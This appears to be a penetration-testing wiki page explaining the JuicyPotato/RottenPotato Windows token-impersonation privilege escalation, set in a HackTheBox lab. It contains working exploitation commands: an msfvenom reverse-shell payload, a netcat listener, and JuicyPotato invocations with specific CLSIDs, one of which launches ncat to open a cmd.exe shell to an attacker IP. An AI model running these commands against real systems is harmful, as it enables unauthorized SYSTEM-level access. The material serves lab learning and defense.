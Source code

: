 # JuicyPotato/RottenPotato

## Short **Summary**

If an user account you control has the SEImpersonate token (which most service accounts have), then you can get root.

This exploit was effectively **patched** in Win10 1809 and Windows Server 2019.

{% embed url="https://github.com/ohpe/juicy-potato" %}

## Explanation

### Requirements

If your user has **SeImpersonate** or **SeAssignPrimaryToken** privileges then you are effectively SYSTEM. Normal users don’t usually have these, but service-level users might. You can check this with `whoami /all` under "Privileges".

You also need to be able to call a DCOM service, which:

1. implements the IMarshal interface
2. runs as an elevated user (SYSTEM, Administrator, ...)

Normally this is port 6666, but there are other such services, in case that one is blocked.

### Tokens

Every process has an access token, which specifies, what kinds of actions you can take. With the right privileges, Windows allows you to impersonate tokens for identification or for doing actions on another user’s behalf.

There are basically two kinds of impersonation tokens:

* Delegate/impersonate - these allow you to perform actions
* Identify/anonymous - for identification, don’t allow you to perform actions.&#x20;

If you can get a delegate/impersonate impersonated access token with SYSTEM rights, then you can perform actions as SYSTEM.

### How It Works

How RottenPotato works at a high level:

1. Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
2. Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
3. Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.

## Exploitation

First of all, download the [juicypotato](https://github.com/ohpe/juicy-potato/releases) executable. If the official release isn't working, try an [x86 version](https://github.com/ivanitlearning/Juicy-Potato-x86).

You're going to need something for JuicyPotato to execute when it finishes successfully. For example, you could generate a reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST="10.10.14.20" LPORT=8002 -f exe > reverse.exe
```

Listen for the reverse shell on your machine:&#x20;

```
nc -lnvp 8002
```

On the victim machine, execute juicypotato (in this case the x86 variant):&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "CLSID_HERE" -p C:\path\to\reverse.exe -t *
```

You're probably going to need to test multiple CLSID's before you get a working one. [Here is a list of CLSID's to try.](http://ohpe.it/juicy-potato/CLSID/)

For example, in the hackthebox "devel" machine, this was the successful exploit (my reverse.exe was in the inetpub/wwwroot directory):&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "{4B635ECB-0887-4015-8CA6-D621362F98D1}" -p C:\inetpub\wwwroot\reverse.exe -t *
```

Alternatively, you can use it with a static ncat.exe file:&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\ncat.exe -e cmd.exe 10.10.14.17 8002" -t *
```

### External Links

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %}
Technical explanation of RottenPotato, which JuicyPotato is based on
{% endembed %}

{% embed url="https://www.youtube.com/watch?v=QRpfvmMbDMg" %}
Blackhat technical talk about tokens
{% endembed %}





